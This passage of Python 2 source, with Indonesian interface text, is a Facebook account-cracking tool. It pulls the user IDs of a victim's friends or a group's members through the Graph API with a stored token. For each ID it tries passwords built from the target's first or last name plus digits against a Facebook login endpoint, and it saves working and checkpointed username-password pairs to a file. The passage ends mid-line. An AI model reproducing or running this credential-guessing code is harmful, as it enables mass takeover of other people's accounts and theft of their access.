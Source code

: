 berhasil.append('\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + username + ' | ' + passw)                 back += 1             else:                 if 'www.facebook.com' in mpsh['error_msg']:                     cek = open('Cekpoint.txt', 'w')                     cek.write(username + ' | ' + passw + '\n')                     cek.close()                     cekpoint.append('\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + username + ' | ' + passw)                     back += 1                 else:                     gagal.append(username)                     back += 1             sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack    \x1b[1;91m:\x1b[1;97m ' + str(back) + ' \x1b[1;96m>\x1b[1;97m ' + str(len(up)) + ' =>\x1b[1;92mLive\x1b[1;91m:\x1b[1;96m' + str(len(berhasil)) + ' \x1b[1;97m=>\x1b[1;93mCheck\x1b[1;91m:\x1b[1;96m' + str(len(cekpoint)))             sys.stdout.flush()      except IOError:         print '\n\x1b[1;91m[!] Koneksi terganggu'         time.sleep(1)     except requests.exceptions.ConnectionError:         print '\x1b[1;91m[\xe2\x9c\x96] Tidak ada koneksi'   def hasil():     print     print 40 * '\x1b[1;97m\xe2\x95\x90'     for b in berhasil:         print b      for c in cekpoint:         print c      print     print '\x1b[31m[x] Gagal \x1b[1;97m--> ' + str(len(gagal))     keluar()   def super():     global toket     os.system('reset')     try:         toket = open('login.txt', 'r').read()     except IOError:         print '\x1b[1;91m[!] Token tidak ditemukan'         os.system('rm -rf login.txt')         time.sleep(1)         login()      os.system('reset')     print logo     print 40 * '\x1b[1;97m\xe2\x95\x90'     print '\x1b[1;37;40m1. Crack dari daftar Teman'     print '\x1b[1;37;40m2. Crack dari member Grup'     print '\x1b[1;31;40m0. Kembali'     print     pilih_super()   def pilih_super():     peak = raw_input('\x1b[1;91m-\xe2\x96\xba\x1b[1;97m ')     if peak == '':         print '\x1b[1;91m[!] Jangan kosong'         pilih_super()     else:         if peak == '1':             os.system('reset')             print logo             print 40 * '\x1b[1;97m\xe2\x95\x90'             jalan('\x1b[1;91m[+] \x1b[1;92mMengambil id teman \x1b[1;97m...')             r = requests.get('https://graph.facebook.com/me/friends?access_token=' + toket)             z = json.loads(r.text)             for s in z['data']:                 id.append(s['id'])          else:             if peak == '2':                 os.system('reset')                 print logo                 print 40 * '\x1b[1;97m\xe2\x95\x90'                 idg = raw_input('\x1b[1;91m[+] \x1b[1;92mID Grup   \x1b[1;91m:\x1b[1;97m ')                 try:                     r = requests.get('https://graph.facebook.com/group/?id=' + idg + '&amp;access_token=' + toket)                     asw = json.loads(r.text)                     print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama grup \x1b[1;91m:\x1b[1;97m ' + asw['name']                 except KeyError:                     print '\x1b[1;91m[!] Grup tidak ditemukan'                     raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')                     super()                  re = requests.get('https://graph.facebook.com/' + idg + '/members?fields=name,id&amp;limit=999999999&amp;access_token=' + toket)                 s = json.loads(re.text)                 for i in s['data']:                     id.append(i['id'])              else:                 if peak == '0':                     menu_hack()                 else:                     print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;97m' + peak + ' \x1b[1;91mTidak ada'                     pilih_super()     print '\x1b[1;91m[+] \x1b[1;92mJumlah ID \x1b[1;91m: \x1b[1;97m' + str(len(id))     jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')     titik = ['.   ', '..  ', '... ']     for o in titik:         print '\r\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mCrack \x1b[1;97m' + o,         sys.stdout.flush()         time.sleep(1)      print     print 40 * '\x1b[1;97m\xe2\x95\x90'      def main(arg):         user = arg         try:             a = requests.get('https://graph.facebook.com/' + user + '/?access_token=' + toket)             b = json.loads(a.text)             pass1 = b['first_name'] + '123'             data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + user + '&amp;locale=en_US&amp;password=' + pass1 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')             q = json.load(data)             if 'access_token' in q:                 print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass1             else:                 if 'www.facebook.com' in q['error_msg']:                     print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass1                 else:                     pass2 = b['first_name'] + '12345'                     data = urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&amp;format=json&amp;sdk_version=2&amp;email=' + user + '&amp;locale=en_US&amp;password=' + pass2 + '&amp;sdk=ios&amp;generate_session_cookies=1&amp;sig=3f555f99fb61fcd7aa0c44f58f522ef6')                     q = json.load(data)                     if 'access_token' in q:                         print '\x1b[1;97m[\x1b[1;92mOK\xe2\x9c\x93\x1b[1;97m] ' + user + ' | ' + pass2                     else:                         if 'www.facebook.com' in q['error_msg']:                             print '\x1b[1;97m[\x1b[1;93mCP\xe2\x9c\x9a\x1b[1;97m] ' + user + ' | ' + pass2                         else:                             pass3 = b['last_name'] + '123'                             data